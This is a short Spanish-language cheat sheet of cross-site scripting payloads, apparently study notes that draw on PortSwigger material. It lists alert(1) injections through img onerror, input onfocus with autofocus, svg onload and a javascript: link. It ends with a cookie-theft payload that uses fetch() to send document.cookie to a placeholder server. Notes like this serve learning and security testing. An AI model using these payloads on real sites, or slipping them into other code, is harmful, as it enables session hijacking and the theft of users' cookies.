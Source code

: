 Detalles teóricos de Port Swigger en [[Index XSS]]

Si puedes inyectar dentro de atributos `src`, `alt`, etc.:
```java
<img src=x onerror=alert(1)>
```

Carga en formularios ocultos:
```java
<input type="text" value="XSS" onfocus=alert(1) autofocus>
```

Si la aplicación permite inyectar SVG:
```java
<svg onload=alert(1)>
```

Carga en JavaScript inline:
```java
<a href="javascript:alert(1)">Click aquí</a>
```

Robo de cookie por XSS:
```java
fetch('https://tu-servidor.com/log?cookie=' + document.cookie);
```